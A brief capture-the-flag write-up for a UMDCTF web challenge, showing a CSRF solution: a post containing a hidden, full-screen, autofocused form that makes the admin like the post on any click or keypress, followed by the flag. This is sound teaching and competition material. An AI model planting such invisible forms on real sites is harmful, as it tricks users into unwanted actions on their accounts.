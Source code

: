 # Solution
CSRF to make the admin like our created post

1) Create account
2) Login
3) Create a post with a form that have an autofocused submit button
4) when the admin loads the page, any click or keypress automatically submits the form

```html
<form action="https://a-minecraft-movie-api.challs.umdctf.io/legacy-social" method="POST">
  <input name="sessionNumber" value="23">
  <input name="postId" value="e7181b50-1d30-4c07-ba37-4350383322e3">
  <input name="likes" value="1">
  <input type="submit" autofocus style="position:fixed;top:0;left:0;width:100%;height:100%;opacity:0">
</form>
```

`UMDCTF{I_y3@RNeD_f0R_7HE_Min3S}`

Solved by: aan03
